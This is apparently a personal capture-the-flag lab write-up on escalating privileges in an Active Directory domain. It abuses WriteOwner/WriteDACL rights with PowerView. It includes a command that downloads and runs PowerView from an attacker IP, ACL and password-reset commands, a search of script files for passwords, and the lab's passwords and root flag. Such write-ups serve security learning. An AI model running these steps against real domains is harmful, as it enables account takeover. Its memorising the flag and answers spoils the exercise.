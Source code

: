 
Now we know that Nico has write access to Herman.

Herman is having genric write and WriteDACL to Backup_Admin
![[Pasted image 20240514035852.png]]

If we search write owner in AD security (i.e. Scanning for Active Directory Privileges & Privileged Accounts) https://adsecurity.org/?p=3658

![[Pasted image 20240514040331.png]]

![[Pasted image 20240514040453.png]]

So in order to exploit this we have to load Power Viewer.
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20:80/PowerView.ps1")
```


Now the very 1st step is to take ownership from Herman to Nico
```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico -verbose
```

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
```


So if now we run the Bloodhound we can see that we have the write owner as well as Force Password Change.
![[Pasted image 20240514042312.png]]

```
$pass = ConvertTo-SecureString 'PleaseSubscribe!' -AsPlainText -Force
```

So now let's try login with Herman
```
PleaseSubscribe!
```

Now will change the password
```
Set-DomainUserPassword Herman -AccountPassword $pass -verbose
```

So we are finally in 
![[Pasted image 20240514043326.png]]

How we have to make Herman a member of Backup_admin
![[Pasted image 20240514043417.png]]


```
Get-DomainGroup -MemberIdentity <User/Group>
```
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
![[Pasted image 20240514043644.png]]


```
Get-DomainGroup -MemberIdentity Herman | select samaccountname
```
![[Pasted image 20240514043838.png]]

I don't know but i have to run the script again in order to get it work
![[Pasted image 20240514044804.png]]

Will ssh to Herman again 
![[Pasted image 20240514045031.png]]
but we don't have the access to root.txt

Than simply means that we have to hassle a little more to get the password.
![[Pasted image 20240514045317.png]]
If you see we have a backup scripts folder which looks suspicious to me and i have a hunch that we will get something from here.
```
type * | findstr password
```
![[Pasted image 20240514045415.png]]

```
Cr4ckMeIfYouC4n!
```

And if we do ssh to the administrator
![[Pasted image 20240514045712.png]]

We can read the root flag
```
876b2385b3deed360e94b0276029e5f5
```

